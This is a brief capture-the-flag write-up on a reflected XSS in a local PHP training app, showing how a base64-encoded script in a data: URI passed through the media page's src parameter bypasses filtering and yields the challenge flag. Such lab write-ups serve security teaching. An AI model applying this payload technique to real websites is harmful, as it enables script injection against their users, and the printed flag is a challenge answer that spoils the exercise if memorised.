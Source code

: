 ## [Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)

TODO: HTML Injection?

The index page has a weirdly loaded image http://localhost:8080/index.php?page=media&src=nsa.

Visiting the page and changing the `src` query parameter shows an HTML `<object>` tag, with a `data` attribute which corresponds to `src`. For example, visiting `http://localhost:8080/index.php?page=media&src=ooga` yields `<object data="ooga">`.

We start by trying an HTML injection with `src=<script>alert("ooga")</script>`

After trying a million things, we managed to bypass the url encoding with base 64, and do an xss attack

```
➜  darklyProject git:(master) ✗ echo '<script>alert()</script>' | base64
PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==
```

this gives us a double wrong answer as http://localhost:8080/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==

but putting something in the alert

```
➜  darklyProject git:(master) ✗ echo '<script>alert("ok")</script>' | base64
PHNjcmlwdD5hbGVydCgib2siKTwvc2NyaXB0Pgo=
```

gets us the flag

```
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```
